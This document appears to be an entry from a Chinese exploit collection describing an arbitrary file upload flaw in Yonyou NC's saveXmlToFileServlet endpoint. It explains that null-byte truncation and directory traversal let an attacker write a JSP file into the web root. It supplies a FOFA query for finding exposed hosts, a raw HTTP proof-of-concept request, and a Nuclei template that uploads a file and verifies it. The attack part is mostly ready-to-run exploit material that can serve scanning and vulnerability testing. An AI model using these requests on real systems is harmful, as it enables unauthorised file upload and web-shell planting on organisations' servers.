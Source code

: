 ## 用友NC接口saveXmlToFIleServlet存在文件上传

/portal/pt/servlet/saveXmlToFileServlet/doPost接口会保存xml文档到服务器一个路径下，默认会添加.xml后缀，通过Windows的文件名特性可截断.xml文件后缀。再通过目录穿越可上传jsp文件到nc_web目录下。


## fofa
```
title:"YONYOU NC"
```


## poc
```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=..\\..\\..\\webapps\\nc_web\\test9527.jsp%00 HTTP/1.1
Host: xxxxx
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

123

```

## nuclei
```nuclei
id: yonyou-uap-saveXmlToFileServlet-upload-file
info:
  name: yonyou-uap-saveXmlToFileServlet-upload-file
  author: qianbenhyu
  severity: high

http:
  - method: POST
    path:
      - "{{BaseURL}}/portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=..\\..\\..\\webapps\\nc_web\\{{randstr_1}}.jsp%00"
    headers:
      Cookie: LA_K1=langid
      serverEnable: localserver
      Accept-Encoding: gzip, x-gzip, deflate
      Content-Length: 27
      Content-Type: application/octet-stream
      Content-Encoding: UTF_8
      Connection: keep-alive
      User-Agent: Apache-HttpClient/5.2.1 (Java/1.8.0_202)
    body: "{{randstr_2}}"

  - method: GET
    path:
      - "{{BaseURL}}/{{randstr_1}}.jsp"
    matchers:
      - type: word
        words:
          - "{{randstr_2}}"

```
